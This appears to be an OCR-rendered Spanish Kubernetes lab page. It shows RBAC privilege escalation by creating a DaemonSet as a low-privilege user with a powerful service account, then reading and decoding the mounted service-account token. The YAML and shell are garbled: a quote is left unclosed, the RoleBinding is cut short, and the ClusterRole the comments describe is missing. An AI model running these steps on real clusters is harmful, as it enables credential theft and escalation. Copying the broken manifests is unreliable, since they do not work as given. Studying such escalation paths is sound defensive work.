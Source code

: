 ## Crear Daemonset

```bash
# Crear cuenta de servicio test-sa
# Crear rol y vinculación de roles para dar permisos de lista y creación sobre daemonsets en el espacio de nombres predeterminado al usuario Test
# Crear clusterrole y clusterrolebinding para dar acceso al SA test-sa a los secretos en todas partes

echo 'apiVersion: v1
kind: ServiceAccount
metadata:
  name: test-sa
---
kind: Role
apiVersion: rbac.authorization.k8s.io/v1
metadata:
  name: test-r
rules:
  - apiGroups: ["apps"]
    resources: ["daemonsets"]
    verbs: ["get", "list", "create"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: test-rb
subjects:
  - kind: User
    name: Test
# Comprobar que el usuario Test puede obtener los pods en el namespace default
kubectl --as Test -n default get daemonsets

# Crear un daemonset como usuario Test con el SA test-sa (paso de escalada de privilegios)
echo "apiVersion: apps/v1
kind: DaemonSet
metadata:
  name: alpine
  namespace: default
spec:
  selector:
    matchLabels:
      name: alpine
  template:
    metadata:
      labels:
        name: alpine
    spec:
      serviceAccountName: test-sa
      automountServiceAccountToken: true
      hostNetwork: true
      containers:
      - name: alpine
        image: alpine
        command: ['/bin/sh']
        args: ['-c', 'sleep 100000']"| kubectl --as Test apply -f -

# Conéctese al pod creado y confirme que el token SA adjunto pertenece a test-sa
kubectl exec -ti -n default daemonset.apps/alpine -- cat /var/run/secrets/kubernetes.io/serviceaccount/token | cut -d "." -f2 | base64 -d

# Limpiar el escenario
kubectl delete daemonset alpine
```